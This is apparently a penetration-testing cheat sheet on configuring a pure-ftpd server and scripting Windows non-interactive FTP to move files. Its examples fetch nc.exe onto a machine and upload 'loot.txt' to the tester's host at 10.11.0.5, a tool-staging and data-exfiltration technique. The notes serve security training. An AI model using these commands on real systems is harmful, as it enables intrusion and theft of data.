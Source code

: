 # Configuring an FTP server

update apt cache and install pure-ftpd
```bash
apt-get update && apt-get install pure-ftpd
```

The following setup script can be used to quickly configure an ftp server
```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

mark script executable and launch
```bash
chmod +x setup-ftp
./setup-ftp
```

# Non-Interactive FTP
Windows FTP can be called non-interactivly using `-s` option
```
ftp -v -n -s:ftp.txt
```

# Examples
## GET a file from remote
```
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## PUT a file from remote
```
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo put loot.txt >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt

```

